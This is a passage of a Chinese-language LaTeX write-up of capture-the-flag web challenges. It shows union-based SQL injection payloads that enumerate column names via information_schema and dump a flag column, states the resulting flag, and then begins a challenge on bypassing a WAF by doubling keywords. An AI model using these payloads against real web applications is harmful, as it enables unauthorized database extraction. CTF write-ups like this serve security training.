    
\includegraphics[width=0.95\textwidth]{5.6.png}
    \caption{获取数据库表名}
\end{figure}

\subsubsection{步骤三：获取列名并查询Flag}
\begin{enumerate}
    \item 查询目标表\texttt{chkjdhdepbphff}中的所有列名：
    \begin{lstlisting}[language=sql]
Amy Jones' union select group_concat(column_name),2,3,4 from information_schema.columns where table_name='chkjdhdepbphff'#
    \end{lstlisting}
    页面回显列名：\texttt{chlmdojkdgijlfh}（flag存储列）。
    
    \item 直接查询flag所在列，获取最终flag：
    \begin{lstlisting}[language=sql]
Amy Jones' union select group_concat(chlmdojkdgijlfh),2,3,4 from chkjdhdepbphff#
    \end{lstlisting}
    页面直接回显完整flag，完成解题。
\end{enumerate}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.7.png}
    \caption{获取列名}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.8.png}
    \caption{获取Flag成功}
\end{figure}

\subsection{最终Flag}
\begin{center}
    \Large flag\{7a7be38a-594c-4870-a4fa-09ad65ee62d1\}
\end{center}

\newpage

% --------------------- Web 题目5：例题-SQL注入2（双写绕过）
\section{题目6：例题-SQL注入2（双写绕过WAF）}
\subsection{题目分析}
本题为中级SQL注入题目，在例题1基础上增加了WAF防护规则，\textbf{union、select、or}关键字被直接过滤，必须使用\textbf{双写绕过}技术完成注入，最终获取flag。

\subsection{解题步骤}

\subsubsection{步骤1：确认注入点与闭合方式}
输入单引号触发报错，确认字符型注入：
\begin{lstlisting}
Amy Jones'
\end{lstlisting}
\begin{figure}[H]
    \centering
